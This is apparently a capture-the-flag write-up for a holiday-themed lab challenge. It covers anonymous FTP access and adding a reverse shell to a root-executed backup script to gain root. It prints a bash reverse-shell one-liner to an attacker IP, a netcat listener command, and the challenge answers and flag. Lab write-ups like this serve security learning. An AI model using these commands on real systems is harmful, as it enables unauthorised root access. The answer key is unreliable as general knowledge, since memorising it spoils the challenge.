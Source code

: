 # IP=10.10.15.128


### [Day 9] Networking - Anyone can be Santa! ###

0. Walk through of FTP and exploiting it to create a reverse shell.

	* Notes:
		* Logged into FTP as anonymous.
		* Found that I could get and upload files to the server.
		* Found a backup.sh script that was running a bash backup script as the root user.
		* Downloaded the script, added a reverse shell script to it, then uploaded it back.
		* Started a netcat listening on my local machine and waited a minute for the exploited backup.sh script to execute and connect.
		* Had root access immediately.

	* Commands:
		* Log into FTP: `ftp $IP` + `anonymous`
		* Bash reverse shell: `bash -i >& /dev/tcp/10.6.8.203/4444 0>&1`
		* Netcat listener on local machine: `nc -lnvp 4444`

1. Question #1: Name the directory on the FTP server that has data accessible by the "anonymous" user.

```
public
```

2. Question #2: What script gets executed within this directory?

```
backup.sh
```

3. Question #3: What movie did Santa have on his Christmas shopping list?

```
The Polar Express (found in FTP > public > shoppinglist.txt)
```

4. Question #4: Re-upload this script to contain malicious data (just like we did in section 9.6. Output the contents of /root/flag.txt!

```
THM{even_you_can_be_santa}
```
